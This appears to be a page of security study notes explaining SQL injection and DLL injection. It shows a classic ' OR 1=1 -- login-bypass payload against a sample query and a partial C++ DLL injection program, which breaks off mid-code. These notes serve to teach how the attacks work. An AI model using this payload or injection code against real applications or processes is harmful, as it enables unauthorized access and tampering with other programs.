##### Structured query language (SQL)

* Web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
* Attacker injects malicious SQL code into the applications input fields, which can then be executed by the database.
* Can lead to unauthorized access to sensitive data, data loss, or even complete system compromise.
* Example:
  1. Suppose a web app uses an SQL database to store user info. The application has a login page that accepts a username and password. SQL query to authenticate the user might look like this:
     
     ```sql
     SELECT * FROM users WHERE username = 'username' AND password = 'password'
     ```
     
  2. An attacker can exploit this by entering the following string as the username:
     
     ```sql
     ' OR 1=1 --
     ```
  3. This will modify the SQL query to look like this:

     ```sql
     SELECT * FROM users WHERE username = ' ' OR 1=1 --' AND password = 'password'
     ```
     
  4. The `--` at the end of the string is used to comment out the rest of the original query. The modified query will return all rows from the `users` table, effectively bypassing authentication.
  
##### Dynamic-link library (DLL)

* A technique used for running code with the address space of another process by forcing it to load a dynamic-link library.
* DLL injection is often used by external programs to influence the behavior of another program in a way it's authors did not anticipate or intend.
* Example of a simple injection in C++:

  ```c++
  #include <windows.h>
  #include <stdio.h>

  int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Usage: %s <PID> <DLL_PATH>\n", argv[0]);
        return 1; }

    DWORD pid = atoi(argv[1]);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("Failed to open process %d\n", pid);
        return 1;
    }

    LPVOID lpRemoteString = VirtualAllocEx(hProcess, NULL, strlen(argv[2]) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (!lpRemoteString) {
        printf("Failed to allocate memory in remote process\n");
        return 1;
    }

    if (!WriteProcessMemory(hProcess, lpRemoteString, argv[2], strlen(argv[2]) + 1, NULL)) {
        printf("Failed to write memory in remote process\n");
        return 1;
    }

    HMODULE hKernel32 = GetModuleHandle("kernel32.dll");
    FARPROC pLoadLibraryA = GetProcAddress(hKernel32, "LoadLibraryA");
  ```